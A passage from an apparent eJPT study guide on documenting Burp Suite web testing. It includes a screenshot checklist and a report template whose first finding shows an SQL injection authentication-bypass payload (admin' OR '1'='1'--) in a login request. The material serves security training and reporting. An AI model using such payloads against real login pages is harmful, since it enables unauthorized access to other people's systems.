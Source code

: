 **🔥 Required Screenshots for eJPT:**
- [ ] Burp Suite proxy configuration showing active interception
- [ ] Original request captured in Proxy/Repeater before modification  
- [ ] Modified request with payload clearly highlighted
- [ ] Response showing successful vulnerability exploitation
- [ ] Browser confirmation of exploit success (web shell access, etc.)

**🔥 Request/Response Documentation:**
```bash
# Save critical evidence systematically:
1. Original HTTP requests → Right-click → "Copy to clipboard"
2. Modified payloads → Highlight exact changes made
3. Response analysis → Document status codes, content changes
4. Error messages → Capture any revealing system information
5. Success proof → Screenshot successful exploitation
```

### **📊 Professional Report Template:**

```markdown
# Web Application Security Assessment - Burp Suite Analysis

## Executive Summary
Web application security testing conducted using Burp Suite revealed multiple critical vulnerabilities requiring immediate remediation.

## Testing Methodology
Manual security testing performed using industry-standard techniques:
- HTTP traffic interception and analysis via Burp Suite proxy
- Systematic vulnerability testing using Burp Suite Repeater
- Response analysis for security weakness identification
- Manual exploitation confirmation and impact assessment

## Critical Findings

### 1. SQL Injection - Authentication Bypass (Critical)
**Location:** Login form (/login.php)
**Parameter:** username field
**Vulnerability Type:** SQL Injection leading to authentication bypass

**Original Request:**
```http
POST /login.php HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/x-www-form-urlencoded

username=admin&password=wrongpassword
```

**Exploited Request:**
```http
POST /login.php HTTP/1.1
Host: vulnerable-app.com  
Content-Type: application/x-www-form-urlencoded

username=admin' OR '1'='1'--&password=wrongpassword
```
